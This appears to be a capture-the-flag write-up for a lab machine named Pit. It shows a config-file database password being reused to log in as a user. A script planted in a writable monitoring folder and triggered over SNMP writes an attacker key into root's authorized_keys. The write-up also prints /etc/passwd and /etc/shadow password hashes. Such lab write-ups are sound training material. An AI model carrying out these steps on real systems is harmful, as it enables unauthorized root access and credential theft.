

# Lateral Movement to michelle

## Local enumeration

Enumerated contents of **/var/www/html/seeddms51x/conf/settings.xml**:

```xml
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
    </database>
    <!-- smtpServer: SMTP Server hostname
       - smtpPort: SMTP Server port
       - smtpSendFrom: Send from
    -->
```

>[!important]
>seeddms     ied^ieY6xoquu

Enumerated local users:

```bash
cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd:x:998:995:User for polkitd:/:/sbin/nologin
unbound:x:997:994:Unbound DNS resolver:/etc/unbound:/sbin/nologin
sssd:x:996:992:User for sssd:/:/sbin/nologin
chrony:x:995:991::/var/lib/chrony:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
michelle:x:1000:1000::/home/michelle:/bin/bash
setroubleshoot:x:994:990::/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:993:989:User for cockpit-ws:/nonexisting:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
nginx:x:992:988:Nginx web server:/var/lib/nginx:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
cockpit-wsinstance:x:991:987:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rngd:x:990:986:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin
```

## Escalation to michelle

Logged in as michelle using the cockpit service on port 9090 and the mysql password found inside the conf file:

>[!important]
>michelle     ied^ieY6xoquu





Added a custom public key and logged into the box using SSH:



```bash
┌──(kali㉿kali)-[~/…/HTB/box/Pit/exploit]
└─$ sudo ssh michelle@10.10.10.241 -i /home/pwn/.ssh/id_rsa
[sudo] password for kali:
The authenticity of host '10.10.10.241 (10.10.10.241)' cannot be established.
ECDSA key fingerprint is SHA256:N07IT3fGYgOB1uKAL/kctwXiIXEDS6kmuNno6+6uQts.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.241' (ECDSA) to the list of known hosts.
Web console: https://pit.htb:9090/ or https://10.10.10.241:9090/

Last login: Tue May 18 06:26:11 2021
[michelle@pit ~]$ clear
[michelle@pit ~]$ ls
user.txt
[michelle@pit ~]$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:53:3a brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.241/24 brd 10.10.10.255 scope global noprefixroute ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::fc6f:c2ab:4f8e:bbca/64 scope global dynamic noprefixroute 
       valid_lft 86371sec preferred_lft 14371sec
    inet6 fe80::8811:73af:e9e:6b74/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

# Privilege Escalation

## Local enumeration

Enumerated ACL rules:

```bash
[+] Files with ACLs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#acls
# file: /usr/local/monitoring
USER   root      rwx     
user   michelle  -wx     
GROUP  root      rwx     
mask             rwx     
other            ---

[michelle@pit monitoring]$ getfacl -t -s -R -p /bin /etc /home /opt /root /sbin /usr /tmp 2>/dev/null
# file: /usr/local/monitoring
USER   root      rwx     
user   michelle  -wx     
GROUP  root      rwx     
mask             rwx     
other            ---
```

Enumerated if any script interacts with `/usr/local/monitoring`:

```bash
[michelle@pit tmp]$ grep "/usr/local/monitoring" -ri / 2>/dev/null
/usr/bin/monitor:for script in /usr/local/monitoring/check*sh
```

Enumerated the monitor script (discovered also from SNMP):

```bash
[michelle@pit tmp]$ cat /usr/bin/monitor 
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

## Insecure directory permissions

Crafted a custom exploit and placed inside the monitoring folder:

```bash
[michelle@pit ~]$ vi check1.sh
echo "ssh-rsa AAAAB3NzaC1yc ... angM=" > /root/.ssh/authorized_keys

[michelle@pit ~]$ cp check1.sh /usr/local/monitoring/
```

Triggered the exploit trough SNMP and added custom ssh keys to root:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Pit/exploit]
└─$ snmpwalk -c public 10.10.10.241 -v1 NET-SNMP-EXTEND-MIB::nsExtendOutLine
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".1 = STRING: Memory usage
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".2 = STRING:               total        used        free      shared  buff/cache   available
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".3 = STRING: Mem:          3.8Gi       368Mi       3.2Gi       8.0Mi       318Mi       3.3Gi
...
```

Logged in using the custom ssh keys:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Pit/exploit]
└─$ sudo ssh root@10.10.10.241 -i /home/pwn/.ssh/id_rsa
Web console: https://pit.htb:9090/

Last login: Tue May 18 12:41:45 2021 from 10.10.14.7
[root@pit ~]# whoami && id && hostname && cat /root/root.txt && ip a
root
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
pit.htb
6dffbae1392383da23c5d01b8e12ef4e
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:16:03 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.241/24 brd 10.10.10.255 scope global noprefixroute ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::fc6f:c2ab:4f8e:bbca/64 scope global dynamic noprefixroute
       valid_lft 86324sec preferred_lft 14324sec
    inet6 fe80::8811:73af:e9e:6b74/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```



# Trophy

>[!quote]
>What I cannot create, I do not understand.
>
>\- Richard Feynman

>[!success]
>**User.txt**
>421a06bb593103faffdb1d329c35b118

>[!success]
>**Root.txt**
>6dffbae1392383da23c5d01b8e12ef4e

**/etc/shadow**

```bash
[root@pit ~]# cat /etc/shadow | grep '\$'
root:$6$4ZnZ0Iv3NzFIZtKa$tA78wgAwaBBSg96ecMRPYIogQmANo/9pJhHmf06bCmbKukMDM9rdT2Mdc6UhwD1raDzXIrk.zjQ9lkJIoLShE.:18757:0:99999:7:::
michelle:$6$hBsV4t2c9NMnABDe$.4cAMWqwmYPobZdusViisVwuafxDBSptElF1pFyg8O0ypF8DKoiqzYU9EfBx8H/gnTUGPMxEoxoc35rZWZDYn.:18370:0:99999:7:::
```